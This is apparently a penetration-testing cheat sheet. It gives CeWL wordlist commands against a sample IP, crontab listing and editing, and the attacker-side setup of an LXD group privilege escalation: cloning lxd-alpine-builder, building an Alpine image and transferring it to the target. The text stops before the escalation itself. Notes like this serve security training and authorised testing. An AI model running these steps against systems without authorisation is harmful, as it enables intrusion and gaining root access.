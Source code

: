 # Custom Wordlists

### Cewl
```
cewl http://192.168.1.101/index.html > wordlist.txt
cewl {FILE} > wordlist.txt
cewl {URL} > wordlist.txt
```

# Crontab

### List Jobs
```
crontab -l
cat /etc/crontab
```

### Edit
```
crontab -e

# * * * * * <command to be executed>
# - - - - -
# | | | | |
# | | | | ----- Weekday (0 - 7) (Sunday is 0 or 7, Monday is 1...)
# | | | ------- Month (1 - 12)
# | | --------- Day (1 - 31)
# | ----------- Hour (0 - 23)
# ------------- Minute (0 - 59)
```

# LXD Privilege Escalation

### LXD Group
```
$ id
... groups=108(lxd) ...
```

### Attacker Machine
```
# Clone repository
git clone https://github.com/saghul/lxd-alpine-builder.git

# Build image package
sudo ./lxd-alpine-builder/build-alpine

# Rename image package
mv alpine-v3.13-x86_64-20210426_2250.tar.gz alpine.tar.gz

# Transfer file to target machine
# Ex1.: python -m SimpleHTTPServer 80
# Ex2.: scp alpine.tar.gz {USER}@{TARGET}:/tmp
```
